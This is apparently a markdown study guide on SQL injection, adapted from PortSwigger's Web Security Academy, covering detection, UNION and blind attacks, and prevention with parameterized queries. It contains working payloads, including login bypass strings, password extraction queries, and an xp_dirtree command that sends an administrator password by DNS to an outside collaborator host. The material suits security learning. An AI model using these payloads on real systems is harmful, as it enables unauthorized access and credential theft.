

# What is SQLi
SQL injection, or SQLi, is a web security vulnerability that allows an attacker to **interfere and modify the queries that the application makes to its backend database.**
This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs **to other users, or any other data that the application can access.**

In special cases, the attacker can also modify or delete this data, causing persistent changes to the application's content. Also, hard but possible, remote code execution can happen inside the database and DoS attacks can also occur.

# How to detect SQLi
You can detect SQL injection manually using a systematic set of tests against every entry point in the application. To do this, you would typically submit:
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- [OAST](https://portswigger.net/burp/application-security-testing/oast) payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

Alternatively, you can find the majority of SQL injection vulnerabilities quickly and reliably using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner).

# SQL injection in different parts of the query
Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query. Most experienced testers are familiar with this type of SQL injection.

However, SQL injection vulnerabilities can occur at any location within the query, and within different query types. Some other common locations where SQL injection arises are:
- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.
# SQL injection examples
There are lots of SQL injection vulnerabilities, attacks, and techniques, that occur in different situations. Some common SQL injection examples include:

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data), where you can modify a SQL query to return additional results.
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic), where you can change a query to interfere with the application's logic.
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables.
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), where the results of a query you control are not returned in the application's responses.

We will see all four cases.

## SQL injection to retrieve hidden data
Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:
`https://insecure-website.com/products?category=Gifts`

This causes the application to make a SQL query to retrieve details of the relevant products from the database:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

This SQL query asks the database to return:
- all details (`*`)
- from the `products` table
- where the `category` is `Gifts`
- and `released` is `1`.

The restriction `released = 1` is being used to hide products that are not released. We could assume for unreleased products, `released = 0`.

The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:
`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

Crucially, note that `--` is a comment indicator in SQL. This means that the rest of the query is interpreted as a comment, effectively removing it. In this example, this means the query no longer includes `AND released = 1`. As a result, all products are displayed, including those that are not yet released.
You can use a similar attack to cause the application to display all the products in any category, including categories that they don't know about:
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

This results in the SQL query:
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

The modified query returns all items where either the `category` is `Gifts`, or `1` is equal to `1`. As `1=1` is always true, the query returns all items.

This is the lab 1 from [sqli_retrieval](labs/sqli_retrieval.md)

## SQL injection to subvert application logic (login bypass)
Imagine an application that lets users log in with a username and password. If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

This query returns the user whose `username` is `administrator` and successfully logs the attacker in as that user.

Lab that covers this topic: [sqli_login_bypass](labs/sqli_login_bypass.md)

## UNION SQL injection to retrieve data from other database tables
In cases where the application responds with the results of a SQL query, an attacker can use a SQL injection vulnerability to retrieve data from other tables within the database. You can use the `UNION` keyword to execute an additional `SELECT` query and append the results to the original query.

For example, if an application executes the following query containing the user input `Gifts`:

`SELECT name, description FROM products WHERE category = 'Gifts'`

An attacker can submit the input:
`' UNION SELECT username, password FROM users--`

This causes the application to return all usernames and passwords along with the names and descriptions of products.

Let's cover more the SQL injection UNION attacks. 

### SQL injection UNION attacks
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the `UNION` keyword **to retrieve data from other tables within the database**. This is commonly known as a SQL injection UNION attack.

The `UNION` keyword enables you to execute one or more additional `SELECT` queries and append the results to the original query. For example:
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

This SQL query returns a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`.

For a `UNION` query to work, two key requirements must be met:
- The individual queries **must return the same number of columns. If you don't know the number of columns that are being returned in the first query, just bruteforce it by testing.**
- The **data types in each column must be compatible between the individual queries.**

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. **This normally involves finding out:**
- How many columns are being returned from the original query.
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

#### Determining the number of columns required
When you perform a SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

One method involves injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:
`' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- etc.`
Just find the specific number, you kill know it's the correct because no error will be returned and the order of the results will probably change because of the ORDER statement.

This series of payloads modifies the original query to order the results by different columns in the result set. The column in an `ORDER BY` **clause can be specified by its index,** so **you don't need to know the names of any columns**. When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:
`The ORDER BY position number 3 is out of range of the number of items in the select list.`

The application might actually return the database error in its HTTP response, but it may also issue a generic error response. In other cases, it may simply return no results at all. Either way, as long as you can detect some difference in the response, you can infer how many columns are being returned from the query.
The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of null values:
`' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL-- etc.`

If the number of nulls does not match the number of columns, the database returns an error, such as:
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

We use `NULL` as the values returned from the injected `SELECT` query because the data types in each column must be compatible between the original and the injected queries. `NULL` is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

As with the `ORDER BY` technique, the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results. When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. The effect on the HTTP response depends on the application's code. If you are lucky, you will see some additional content within the response, such as an extra row on an HTML table. Otherwise, the null values might trigger a different error, such as a `NullPointerException`. In the worst case, the response might look the same as a response caused by an incorrect number of nulls. This would make this method ineffective.

As summary, both techniques are valid and correct. Just try both of them.

This lab covers both techniques to find out the number of columns in a table: [sqli_union_attack_determine_columns](labs/sqli_union_attack_determine_columns.md)

#### Database-specific syntax
On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle with the NULL technique would need to look like:
`' UNION SELECT NULL FROM DUAL--`

The payloads described use the double-dash comment sequence `--` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment.

#### Finding columns with a useful data type
A SQL injection UNION attack enables you to retrieve the results from an injected query. The interesting data that you want to retrieve is normally in string form. This means you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, **if the query returns four columns**, you would submit:
`' UNION SELECT 'a',NULL,NULL,NULL-- 
`' UNION SELECT NULL,'a',NULL,NULL--` 
`' UNION SELECT NULL,NULL,'a',NULL--` 
`' UNION SELECT NULL,NULL,NULL,'a'--``

If the column data type is not compatible with string data, the injected query will cause a database error, such as:
`Conversion failed when converting the varchar value 'a' to data type int.`

If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data. 

Here is a lab that covers this discovery technique: [sqli_union_finding_column_with_text](labs/sqli_union_finding_column_with_text.md)

#### Using a SQL injection UNION attack to retrieve interesting data
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

Suppose that:
- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the `WHERE` clause.
- The database contains a table called `users` with the columns `username` and `password`.

In this example, you can retrieve the contents of the `users` table by submitting the input:
`' UNION SELECT username, password FROM users--`

In order to perform this attack, you need to know that there is a table called `users` with two columns called `username` and `password`. Without this information, you would have to guess the names of the tables and columns. All modern databases provide ways to examine the database structure, and determine what tables and columns they contain.

Here is a lab that covers this data extraction: [sqli_retrieving_data_from_other_tables](labs/sqli_retrieving_data_from_other_tables.md)
#### Retrieving multiple values within a single column
In some cases the query in the previous example may only return a single column.

You can retrieve multiple values together within this single column by concatenating the values together. You can include a separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

`' UNION SELECT username || '~' || password FROM users--`

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character, **ALL IN ONE COLUMN.**

The results from the query contain all the usernames and passwords, for example:
`... administrator~s3cure wiener~peter carlos~montoya ...`

Here is a lab that covers this technique of appending the information into one column: [sqli_retrieving_multiple_values_in_single_column](labs/sqli_retrieving_multiple_values_in_single_column.md)

## Blind SQL injection
Blind SQL injection occurs when an application is vulnerable to SQL injection, but the HTTP responses do not contain the results of the SQL query or the details of it, or any database errors.
Techniques like UNION attacks are not effective with blind SQLi, as the resulting query is not visualized. 
It is still possible to perform SQL injections with the **blind technique.**

### Exploiting Blind SQLi by triggering conditional responses.
Imagine an application that uses tracking cookies to gather analytics about usage.
The requests to an application include a cookie header like this: 
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a `trackingId` cookie is processed, this value goes into a SQL query to know if the user is known:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application behaves differently if the query returns any data or not. 
In this case, if we submit a recognized `trackingId`, the query returns data and we receive a "Welcome back" message in the response.

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
`…xyz' AND '1'='1 …xyz' AND '1'='2`
- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

This behavior is enough to exploit the blind SQLi, as, if we inject any query and we get a "Welcome back" message, that means that the query is correct. 

This allows us to determine the answer to any single injected condition, and extract data one piece at a time.
For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

**This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.** Take into account that we added an `AND` in the logic of the SQL query, so only if both conditions are valid, the query will be true and the message will be displayed in the screen.

Next, we send the following input:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the `Administrator` user.

This is what is done in the lab in [blind_sqli_conditional_response](labs/blind_sqli_conditional_response.md).

## Blind-error-based SQL injection
Error-based SQL injection refers to cases where you're able to use **error messages to either extract or infer sensitive data from the database**, even in blind contexts. The possibilities depend on the configuration of the database and the types of errors you're able to trigger:

- You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as the [conditional responses](https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-responses) we looked at in the previous section. For more information, see [Exploiting blind SQL injection by triggering conditional errors](https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-errors).
- You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into visible ones. For more information, see [Extracting sensitive data via verbose SQL error messages](https://portswigger.net/web-security/sql-injection/blind#extracting-sensitive-data-via-verbose-sql-error-messages).

We will see both of them now.
### Exploiting blind SQL injection by triggering conditional errors
Some applications carry out SQL queries **but their behavior doesn't change, regardless of whether the query returns any data.** 
The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query **so that it causes a database error only if the condition is true**. 
Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
`xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a``

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true:

- With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error.
- With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.
Using this technique, you can retrieve data by testing one character at a time:
`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

If the SUBSTRING operation fails, that means that the character is not in the list, and therefore, a 1/0 division will be performed and probably an error will be returned. On the other case, it will be TRUE and no error will be returned.

Here is a lab that covers this topic: [blind_sqli_error_response](labs/blind_sqli_error_response.md)
### Extracting sensitive data via verbose SQL error messages
Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an `id` parameter:

`Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`

This shows the full query that the application constructed using our input. 
We can see that in this case, we're injecting into a single-quoted string inside a `WHERE` statement. **This makes it easier to construct a valid query containing a malicious payload.** Commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax.

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one.

You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:
`CAST((SELECT example_column FROM example_table) AS int)`

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:
`ERROR: invalid input syntax for type integer: "Example data"`

This type of query may also be useful if a character limit prevents you from triggering conditional responses.

Here is a lab that covers this topic: [sqli_visible_error_based](labs/sqli_visible_error_based.md)

## Time-based blind SQL injection
If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, **delaying the execution of a SQL query also delays the HTTP response**. This allows us from verifying if there is an SQL injection, as, if the HTTP response takes more, we can suspect it is because we injected a SLEEP operator.

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:
`'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--`

- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:
`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

Here is a lab that covers time-based SQL injection: [blind_sqli_time_based](labs/blind_sqli_time_based.md)

### Exploiting blind SQL injection using out-of-band (OAST) techniques
An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by **triggering out-of-band network interactions to a system that you control**. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This causes the database to perform a lookup for the following domain:
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

We can use Burp Collaborator with this purpose.
Here is a lab that covers this topic: [blind_oast_exfiltration_with_xxe](labs/blind_oast_exfiltration_with_xxe.md)

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.
Here is a lab that covers this topic: [blind_oast_exfiltration_with_xxe](labs/blind_oast_exfiltration_with_xxe.md)
# Second-order SQL injection
First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.

# Examining the database
Some core features of the SQL language are implemented in the same way across popular database platforms, **and so many ways of detecting and exploiting SQL injection vulnerabilities work identically on different types of database.**

However, there are also many differences between common databases. These mean that some **techniques for detecting and exploiting SQL injection work differently on different platforms.** For example:
- Syntax for string concatenation.
- Comments.
- Batched (or stacked) queries.
- Platform-specific APIs.
- Error messages.

After you **identify a SQL injection vulnerability, it's often useful to obtain information about the database**. This information can help you to exploit the vulnerability.
You can query the version details for the database. Different methods work for different database types. This means that if you find a particular method that works, you can infer the database type. For example, on Oracle you can execute:
`SELECT * FROM v$version`

The following are some queries to determine the database version for some popular database types:

|   |   |
|---|---|
|Database type|Query|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input:
`' UNION SELECT @@version--`

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Buil`
You can also identify what database tables exist, and the columns they contain. For example, on most databases you can execute the following query to list the tables:
`SELECT * FROM information_schema.tables`

Here are labs that cover this topic: [sqli_version_exfiltration](labs/sqli_version_exfiltration.md)

# Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:
`SELECT * FROM information_schema.tables`

This returns output like the following:

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar`

This output shows the columns in the specified table and the data type of each column.
# SQL injection in different contexts
In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords.

For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:
`<stockCheck> <productId>123</productId> <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> </stockCheck>`

This will be decoded server-side before being passed to the SQL interpreter.
https://portswigger.net/web-security/sql-injection/examining-the-database

Here is a lab that covers this topic: [sqli_waf_bypass](labs/sqli_waf_bypass.md)
# How to prevent SQL injection
You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".

The following code is vulnerable to SQL injection because the user input is concatenated directly into the query:
`String query = "SELECT * FROM products WHERE category = '"+ input + "'"; Statement statement = connection.createStatement(); ResultSet resultSet = statement.executeQuery(query);`

You can rewrite this code in a way that prevents the user input from interfering with the query structure:
`PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); statement.setString(1, input); ResultSet resultSet = statement.executeQuery();`

You can use parameterized queries for any situation where untrusted input appears as data within the query, including the `WHERE` clause and values in an `INSERT` or `UPDATE` statement. They can't be used to handle untrusted input in other parts of the query, such as table or column names, or the `ORDER BY` clause. Application functionality that places untrusted data into these parts of the query needs to take a different approach, such as:
- Whitelisting permitted input values.
- Using different logic to deliver the required behavior.

For a parameterized query to be effective in preventing SQL injection, the string that is used in the query must always be a hard-coded constant. It must never contain any variable data from any origin. Do not be tempted to decide case-by-case whether an item of data is trusted, and continue using string concatenation within the query for cases that are considered safe. It's easy to make mistakes about the possible origin of data, or for changes in other code to taint trusted data.